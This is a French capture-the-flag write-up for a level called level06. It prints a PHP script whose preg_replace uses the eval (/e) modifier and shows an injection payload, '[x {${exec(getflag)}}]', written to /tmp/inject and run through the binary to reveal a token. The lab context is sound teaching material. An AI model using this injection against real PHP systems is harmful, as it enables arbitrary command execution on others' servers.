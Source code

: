On trouve dans le dossier home un binaire nommé **level06** et un fichier php nommé **level06.php** contenant le code suivant :
```
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}
function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```
> La partie interessante dans le code est <code>/(\[x (.*)\])/e</code> car le preg_replace utilise le modifier **/e** ou **(PREG_REPLACE_EVAL)**, qui est connu pour etre sensible aux injections (Il n'existe meme plus en PHP 7.0.0)

On comprend que le format pour la string recupérée du <code>file_get_contents</code> doit etre formaté de la manière suivante:

<code>/(\[x (.*)\])/e => [x {${INJECTION}}]</code>

L'injection permet de remplacer le <code>(.*)</code> par une commande, comme par exemple **getflag**:

<pre><code>> echo '[x {${exec(getflag)}}]' > /tmp/inject
> ./level06 /tmp/inject
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
</code></pre>

